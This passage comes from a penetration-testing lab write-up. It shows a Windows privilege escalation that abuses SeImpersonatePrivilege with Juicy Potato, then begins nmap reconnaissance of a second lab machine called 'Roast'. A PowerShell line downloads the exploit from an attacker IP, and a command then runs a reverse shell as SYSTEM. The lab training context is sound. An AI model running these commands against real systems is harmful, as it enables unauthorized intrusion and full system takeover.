 ```
println "return code: ${ proc.exitValue()}"
println "stderr: ${proc.err.text}"
println "stdout: ${proc.in.text}"
```

### Priv Esc
```
C:\Users\ben\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabl
```
### SeImpersonatePrivilege
With this privelege we can use the Juicy potato exploit. This can be found [here](https://github.com/ohpe/juicy-potato)
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.1.63/Juicy.Potato.x86.exe', 'C:\Windows\Tasks\juicy.exe')
```
With juicy potato uploaded to the server we can find a correct CSLID for the process we want to escalate to. We can find a bunch of CSLID's for the OS [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter).

Since we already have our shell.exe on the box, we can use juicy to run our reverse shell and have a shell as SYSTEM
```
C:\windows\tasks\juicy.exe -l 1337 -p C:\windows\tasks\shell.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```


### Conclusion

The first 2 beginner machines I have found here are comparable to the advanced or advanced+ machines found at VHL. Pretty simple, no issues.

I'll go from here to the 2 free "challenge" machines to see how they compare in difficulty.


## Roast

### NMAP
```
Nmap scan report for 172.31.3.2
Host is up, received user-set (0.13s latency).
Scanned at 2020-07-10 16:10:04 BST for 1768s
Not shown: 65514 filtered ports
Reason: 65514 no-responses
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-07-10 15:28:19Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: roast.csl, Site: Default-First-Site-Name)
```